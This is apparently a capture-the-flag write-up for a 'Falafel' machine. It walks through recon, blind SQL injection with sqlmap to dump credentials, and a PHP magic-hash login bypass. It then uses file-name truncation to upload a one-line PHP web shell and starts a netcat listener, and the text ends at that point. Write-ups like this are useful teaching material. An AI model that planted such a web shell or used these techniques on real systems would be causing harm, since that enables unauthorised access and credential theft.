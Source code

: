 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt looked like an interesting text page, which disclosed a user named `chris`.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)

**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

By this it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username= parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the md5 hash for this string would also start with 0e. As a result this magic hash would collide with other hashes as both are treated as 0 and therefore would compare to be **true**

I successfully logged in by using `240610708` as the password for `admin`

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start I tried to upload a .php file to see if we can get an easy php reverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image we can clearly see .php files won't work

**File Name Truncation**
What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 12345` on our other terminal

